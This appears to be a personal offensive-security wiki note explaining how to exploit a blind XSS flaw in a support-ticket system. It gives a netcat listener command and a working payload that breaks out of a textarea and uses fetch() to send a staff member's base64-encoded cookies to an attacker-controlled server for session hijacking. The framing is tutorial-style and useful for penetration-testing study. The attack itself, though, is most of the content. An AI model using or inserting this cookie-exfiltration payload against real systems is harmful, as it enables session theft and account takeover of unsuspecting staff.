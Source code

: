 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [[knowledge/offsec/pentesting/blind-xss]] vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [[knowledge/offsec/pentesting/XSS]].

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [[knowledge/offsec/glossary/payload]] to send sensitive content to our own server using [[knowledge/offsec/tools/netcat]].

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.

